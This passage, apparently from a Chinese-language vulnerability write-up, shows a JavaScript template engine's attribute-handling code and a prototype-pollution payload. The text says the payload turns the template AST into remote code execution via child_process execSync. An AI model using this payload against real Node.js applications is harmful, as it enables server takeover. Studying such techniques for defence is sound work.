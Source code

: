 ```bash
                JSON.stringify(runtime.escape(attrs[i].text)) ) + "'");
        else
            this._push("' " + i + "=" + bladeutil.quote(
                JSON.stringify(attrs[i].text) ) + "'");
    }
    //take care of code attributes here
    // 在这里注入代码！！！
    else
        varAttrs += "," + JSON.stringify(i) + ":{v:" + attrs[i].code +
            (attrs[i].escape ? ",e:1" : "") +
            (i == "class" && attrs[i].append ?
                ",a:" + JSON.stringify(attrs[i].append): "") + "}";
```

Payload 如下，这样就能实现 AST Injection+ RCE 了！

```bash
Object.prototype.someprop = {
    'name': 'somename',
    'value': 'somevalue',
    'code' : "process.mainModule.require('child_process').execSync(`whoami`)"
};
```
